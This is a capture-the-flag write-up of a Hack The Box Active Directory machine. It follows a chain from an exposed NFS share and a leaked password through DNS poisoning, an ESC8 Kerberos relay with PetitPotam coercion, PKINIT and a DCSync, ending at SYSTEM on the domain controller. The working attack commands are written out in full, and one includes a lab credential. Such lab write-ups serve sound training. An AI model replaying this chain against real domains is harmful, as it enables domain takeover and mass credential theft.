## Welcome

Today, “*VulnCicada”* (medium-rated machine) from Hack The Box was achieved. This challenge consists in exploiting an Active Directory environment. Please note that this write-up demonstrates the methods I performed as the *axk8* user, although that this is not the absolute path. Several tools were used, but I much preferred to complete this challenge without using a tool that would have made it easier to fully exploit the final identified vulnerability in an automated way. Anyone who has completed the room will know what I'm referring to.

Without further ado, let’s get started!


## Information Gathering

Initially, an Nmap scan with service detection and NSE’s default scripts execution was performed to gather as much information as possible about the targeted system.





Several open ports could have been identified:

- 53 (*DNS*)
- 80 (*HTTP*)
- 88 (*Kerberos*)
- 111 (*RPCbind* — exposing *NLM*, *NSM*,… + NFS on port 2049)
- 135 (*MSRPC*)
- 139 (*NetBIOS*)
- 389 (*LDAP*)
- 445 (*SMB*)
- 636 (*LDAPS*)
- 3389 (*RDP*)

It has been deduced from the reconnaissance phase that an **Active Directory** system ****deployment was targeted; NSE identified the valid `cicadad.vl` **domain** and the `DC-JPQ225.cicada.vl` Domain Controller’s **FQDN** associated with the `DC-JPQ225` Domain Controller **machine**, representing the only host that has been targeted during the AD domain assessment. These informations were added in the local `/etc/hosts` file for proper DNS resolution.

It was quickly suggested through the `STATUS_NOT_SUPPORTED` SMB error that NTLM authentication was not supported within the domain. A **LDAP** query still could be attempted as “*Guest*”, which revealed that the default account was disabled.

The Nmap scan additonally revealed through the exposure of the RPCbind service that a **NFS server** was publicly exposing a `/profiles` share, which could allows an attacker to access its content without being authenticated. Accessibility to the public share could be confirmed through the `showmount -e cicada.vl` command.



Therefore, the share could be accessed through the following command that linked it to a local folder (executed as root):

`mount -o rw cicada.vl:/profiles /tmp/nfs_share`



The NFS share was successfully accessed, revealing several directories that appeared to bear the domain usernames of their respective employees. Inspecting the first `Administrator` folder revealed a `vacation.png` file which revealed nothing exploitable in itself, nor in the metadata.

However, inspecting the second-to-last Rosie Powell employee’s folder (`Rosie.Powell`), a `marketing.png` PNG file could be found. This time, however, the employee made the mistake of revealing her password through the taken picture.

(`ristretto` tool was used to open the PNG file locally, from the terminal)




Since an unauthenticated malicious actor could leverage these public information, the identified credentials exposure issue should be fixed as soon as possible.

Although SMB authentication was unsupported, LDAP worked perfectly externally. Hence, a `ldapwhoami` command could confirm the `Rosie.Powell` domain account takeover:



Since the LDAP protocol has been left accessible from the external network on the DC machine, it could allows an attacker to use a collector tool such as `bloodhound-python` to collect all LDAP objects as an authenticated user in order to put them into a generated ZIP file, which can then be imported into **BloodHound** to view the relationships between domain objects. The following command has been executed to achieve this:

`bloodhound-python -u Rosie.Powell -p REDACTED -d cicada.vl -ns <DC_IP> -c All —-zip`



Investigating object nodes in the BloodHound GUI’s graph didn’t reveal any sensitive privileges or permissions configured for the *Rosie.Powell* domain user.



The user was identified as a member of the non-standard ***Cicada*** group having no explicit privilege.



Although an authenticated access have been gained within the domain, no particular privileges could be identified concerning the compromise user account. Moreover, NTLM authentication was disabled, thereby greatly complicating the assessment since no initial foothold has been established over the Domain Controller computer’s Windows system.

However, enumerating the HTTP website exposed on port 80 revealed, through the `/certsrv` and `/certenroll` web endpoints, that the targeted domain was exposing a ***Active Directory Certificate Service*** (AD CS) deployment. 



But even more than that, since the web service was not deployed with TLSS/SSL encryption / through an enabled HTTPS service, the `/certsrv` resource was insecurely exposing the web enrollment interface resposible for certificate enrollment that could be leveraged to authenticated with a public key. 

Since there was no canal link that stores the web enrollment interface data flow in a secure way, the critical “*ESC8*” AD CS vulnerability could allows an attacker to lead an **impersonation attack** to gain an authenticated access over the targeted Domain Controller machine (previously identified as `DC-JPQ225`) <u>**as**</u> the machine itself, which represents a significant access level, since the domain object is part of the privileged **_Tier Zero_** zone.



This is due to the insecure configuration the web enrollment interface which exposes HTTP flow in plain text. Exploiting it was possible through a subjacent **Kerberos relay attack** led through two powerful **Python** scripts methods.

However, the attack chains has been harder than expected.

First of all, since NTLM authentication was disabled. Thus, SMB named pipes were not accessible by the leveraged tools. NTLM relay attacks were, thus, unrealizable. Since AD CS allows the both NTLM and Kerberos protocols for certificate delivery, Kerberos was used instead.

It is crucial to understand that a **client/server bridge** is absolutely essential for Kerberos relaying attacks to work; Where NTLM authentication relay mechanism only depends on the network for relaying, the Kerberos flow is based on the client’s identity, which considerably complicates the attack chain; this means that the victim’s **Service Principal Name** (SPN) must be impersonated.

Indeed, the problematic was not limited to the network layer alone: it also involved understanding how to circumvent identity relaying issues in the context of impersonating the `$DC-JPQ225` machine account by leveraging its SPN to hijack machine account’s identity so that authentication with the KDC could be possible through an authentication coercion technique, before ultimately relaying the privileged host request to the Certificate Authority (CA) to finally generating a `.pfx` certificate file that could be leverage to achieve full domain compromise.

For instance, the problem could be circumvented through DNS Poisoning to inject a malicious DNS record that could link the local ADIDNS records in the target's AD environment to the relay hosted on the attacker's machine, which highlights the purpose of this technique.

(***TL;DR*** - *DNS poisoning consists of modifying the DNS records in target system in order to make the attacker machine accessible instead of the legitimate resource*.)

Here is the summarized attack chain:

First, the *Rosie.Powell* low-privileged user access was leveraged to inject a DNS record through the `dnstool.py` tool. It allowed to make local machine accessible by the target system. Then, `krbrelayx.py` was used to set up a **relay** that acted as a legitimate server awaiting for the Domain Controller’s Kerberos authentication coercion to the AD CS service through the web enrollment interface to the attacker’s machine. Therefore, `PetitPotam.py`’s authentication coercion technique could be leveraged in order to **force an authentication** from the Domain Controller with the attacker’s machine. Since the web interface couldn’t properly verify client’s identity through an encrypted TLS/SSL scheme, the “***MS-EFSRPC***” RPC protocol was deployed to force the `DC-JPQ225` machine to authenticate with the relay that forwarded the request to the Certificate Authority (CA) web enrollment interface (`certfnsh.asp`). Hence, the CA could then issue the requested certificate by the DC's computer account, through enrolling the sensitive `DomainController` certificate template. The issued certificate could then be used through the ***Public Key Infrastructure*** (PKINIT) Kerberos extension to authenticate to the KDC in order to request a TGT for the DC account and subsequently perform a **DCSync** attack through the MS-DSRF.

As explained, the first step consisted in performing DNS poisoning. However, since the authentication is made through Kerberos, the SPN associated with the targeted hostname must be formatted correctly to link the machine account properly through the network to the spoofer (Please check this Synacktiv blog that was very comprehensive to learn more about the explained Kerberos relay attacks in such environments with SPN padding, API functions calls and more details).

James Forshaw showed that when an SMB client builds the SPN from the service class and name, the SecMakeSPNEx2 method is called. Hence, for the hostname `fdc-JPQ225` and service class `http`, the returned SPN will look like the following:

```
http/fileserver1UWhRCAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAfileserversBAAAA
```

The `SecMakeSPNEx2` function makes a call to the API function `CredMarshalTargetInfo`. This API takes a list of target information in a `CREDENTIAL_TARGET_INFORMATION` structure, marshals it using Base64 encoding and appends it to the end of the real SPN.

Under the hood, the client will call `CredUnmarshalTargetInfo` to parse the marshaled target information. However, the client does not consider the unmarshaled results. Instead, it simply determines the length of the marshaled data and removes that portion from the end of the target SPN string. Consequently, when the Kerberos package receives the target name, it has already been restored to the original SPN. To make things simple, here, this blob was required to transport and formate properly the rogue DNS record that spoofed a SPN associated with the `DC-JPQ225` machine.

That's enough theory. Let's move on to the practical side: let’s start by achieve **DNS Poisoning through the *Active Directory-Integrated DNS (ADIDNS)*** built-in functionalities that allows default domain users to add DNS records (if allowed through the `CREATE_CHILD` attribute permissions). Since the `bind_ntlm()` Python function requires NTLM, the `-k` flag was evoked to use Kerberos authentication. A TGT was issued by the KDC through the `getTGT` *Impacket* tool.

(executed command: `python3 dnstool.py -u cicada.vl\\Rosie.Powell -p <PASSWORD> --action add --record DC-JPQ225**1**UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA --type A --data <LOCAL_IP> -dns-ip <TARGET_IP> DC-JPQ225.cicada.vl -k`)

*(Since standard low-privileged user couldn’t edit any existing record, a new DNS record, a new one has been created instead through `--action add`.)*



It is important to emphasize that the injected record contains the credential blob from the `CredMarshalTargetInfo` function **which makes** DNS to point the attacker machine. The DC could now generate a valid **AP-REQ** (Application Request) and ensure proper service name construction through Kerberos authentication.

Thus, the `krbrelayx.py` Python script was then used to setup paralelly a Kerberos relay listener through the following command that spoofed the Domain Controller’s machine account through `--victim '$DC-JPQ225'`:

`python3 krbrelayx.py -t http://<TARGET_IP>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController --victim '$DC-JPQ225'`

This command will make the DC authentication forwarded to the CA that will deliver a sensitive certificate built on the `DomainController` highly privileged template.



Authentication coercion could then be legitimately performed as the `Rosie.Powell` compromised user through the `PetitPotam.py`’s coercion method, by using **NetExec (**the standalone script got Kerberos checksum issues ) to achieve the Kerberos relay attack that could allows a further Pass-the-Certificate attack to gain access at a domain level, with full privilege, through the authenticated context of the DC-JPQ225.cicada.vl$ machine that has been impersonated through the whole ESC8 vulnerability. The following command could be executed to leverage `*PetitPotam*` technique to coerce authentication with DC machine through setting up a listener that could catch incoming connections to the injected DNS record:  

`nxc smb 10.129.234.48 -u Rosie.Powell -p Cicada123 -d cicada.vl -k -M coerce_plus -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=Petitpotam`





It can be observed that the injected record has been successfully joined by the `DC-JPQ225` machine that authenticated with the Kerberos relay, which relayed the connection to the CA that generated a `.pfx` ***PKCS#12*** certificate file. At this stage, it could allows an attacker to dangerously leverage a public key-based authentication in a privileged context.

Therefore, the sensitive `DomainController` certificate template could be hijacked to impersonate the Domain Controller machine.



As shown above, the `certipy` tool was used paired with the ***auth*** method that allowed to leverage the issued certificate in order to authenticate with the KDC through PKINIT.

This could be achieved through Kerberos with the following command:



`python3 gettgtpkinit.py -cert-pfx certificate.pfx cicada.vl/DC-JPQ225 DC.ccache -dc-ip <TARGET_IP>`

It could serves further DCSync that enabled to replicate all `NTDS.dit` secrets, exposing all domain users credentials.

This could be achieved through the following command:

`impacket-secretsdump cicada.vl/'DC-JPQ225'@DC-JPQ225.cicada.vl -no-pass -k -just-dc`



Administrator’s user AES256 key could be used to request a TGT and obtain an authenticated access as the **`Administrator`** privileged domain user account.

 This results in a critical domain compromise.

Machine hijacking was possible through the `impacket-psexec` tool that handled the Kerberos ticket to initiate a remote session under the `NT AUTHORITY\SYSTEM` privileged local account, on the DC’s Windows system.

